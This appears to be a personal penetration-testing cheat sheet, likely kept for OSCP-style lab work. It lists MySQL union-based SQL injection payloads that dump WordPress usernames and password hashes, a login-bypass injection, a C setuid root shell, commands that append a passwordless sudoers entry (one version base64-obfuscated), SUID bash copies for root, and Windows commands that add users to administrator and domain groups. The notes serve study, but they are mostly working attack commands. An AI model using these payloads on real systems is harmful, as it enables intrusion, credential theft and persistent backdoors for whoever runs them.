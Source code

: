 ### start bloodhound
on mac terminal
```
conda deactivate
cd ~/oscp
./start-neo4j.sh
```
```
open bloodhound
```
#### to find certain files
```
find / -name *.ovpn 2>/dev/null
```
2>1 means redirect standard err to standard out
### sql injection (mysql)
#### union based
enum tables
```
OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"];
```
table to target: wp_users
enum columns
```
OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"];
```
columns to target: user_login , user_pass
dump data
```
OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,concat(user_login,'~',user_pass),11 FROM wp_users#"];
```
### sql injection login bypass
targeting username:
```
admin'-- - (means backend sql will only validate username without looking at password)
```
e.g. original:
```
select user,pass from users where user = 'admin' and password = 'pwd';
```
injected:
```
select user,pass from users where user = 'admin'-- -' and password = 'pwd';
```
### wordpress shell plugins
```
/usr/share/seclists/Web-Shells/WordPress
```

### nslookup
```
nslookup
>server: 10.10.10.x
>10.10.10.x -- to check for the dns info
```

### c setuid shell
```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
### add user to sudoers
```
echo 'reader ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```
workaround with base64 - use cyberchef
![[Screenshot 2021-12-19 at 8.50.59 PM.png]]
```
echo "cmVhZGVyIEFMTD0oQUxMKSBOT1BBU1NXRDpBTEw=" | base64 -d >> /etc/sudoers
```
check:
```
sudo -l
```
To get a stable python shell
```
python -c 'import pty;pty.spawn("/bin/bash")';

```

Find file:
```
find / -name xxx.php
```
### copy bash and make suid (root priv)
find bash location
```
which bash
```
copy out bash + set suid 
```
cp /usr/bin/bash /tmp/mybash
chmod +s /tmp/mybash
```
activate the bash with suid
```
/tmp/mybash -p
```
oneliner
```
cp /bin/bash /tmp/mybash; chmod +s /tmp/mybash
```
### attack nfs
```
showmount -e
```
### set environment variables
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

### SSH Brute force using metasploit

https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
### windows creating users
```
net user john password /add

to add to domain (need domain admin. or genericAll on the domain)

net user john password /add /domain
```
### windows adding users to local groups
```
add to local group

net localgroup administrators john /add

to check

net localgroup administrators 
```
### windows adding users to domain groups
```
add to domain group

net group "EXCAHNGE WINDOWS PERMISSSIONS" john /add /domain

to check

net group "EXCAHNGE WINDOWS PERMISSSIONS" /domain
```
